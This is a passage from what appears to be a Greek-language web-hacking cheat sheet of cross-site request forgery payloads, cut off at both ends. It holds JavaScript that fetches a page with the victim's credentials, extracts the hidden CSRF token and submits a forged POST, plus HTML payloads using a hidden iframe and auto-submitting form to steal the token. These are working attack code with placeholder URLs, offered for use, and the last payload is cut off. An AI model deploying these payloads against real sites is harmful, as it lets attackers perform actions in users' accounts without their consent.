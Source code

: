 ```javascript
//console.log(xhr.responseText);
}
}

xhr.send("token=" + token + "&otherparama=heyyyy");
}

function getTokenJS() {
var xhr = new XMLHttpRequest();
// This tels it to return it as a HTML document
xhr.responseType = "document";
xhr.withCredentials = true;
// true on the end of here makes the call asynchronous
xhr.open("GET", GET_URL, true);
xhr.onload = function (e) {
if (xhr.readyState === XMLHttpRequest.DONE && xhr.status === 200) {
// Get the document from the response
page = xhr.response
// Get the input element
input = page.getElementById("token");
// Show the token
//console.log("The token is: " + input.value);
// Use the token to submit the form
submitFormWithTokenJS(input.value);
}
};
// Make the request
xhr.send(null);
}

var GET_URL="http://google.com?param=VALUE"
var POST_URL="http://google.com?param=VALUE"
getTokenJS();
```
### **Κλέψε το CSRF Token και στείλε ένα Post αίτημα χρησιμοποιώντας ένα iframe, μια φόρμα και Ajax**
```html
<form id="form1" action="http://google.com?param=VALUE" method="post" enctype="multipart/form-data">
<input type="text" name="username" value="AA">
<input type="checkbox" name="status" checked="checked">
<input id="token" type="hidden" name="token" value="" />
</form>

<script type="text/javascript">
function f1(){
x1=document.getElementById("i1");
x1d=(x1.contentWindow||x1.contentDocument);
t=x1d.document.getElementById("token").value;

document.getElementById("token").value=t;
document.getElementById("form1").submit();
}
</script>
<iframe id="i1" style="display:none" src="http://google.com?param=VALUE" onload="javascript:f1();"></iframe>
```
### **Κλέψε το CSRF Token και στείλε ένα POST αίτημα χρησιμοποιώντας ένα iframe και μια φόρμα**
```html
<iframe id="iframe" src="http://google.com?param=VALUE" width="500" height="500" onload="read()"></iframe>
```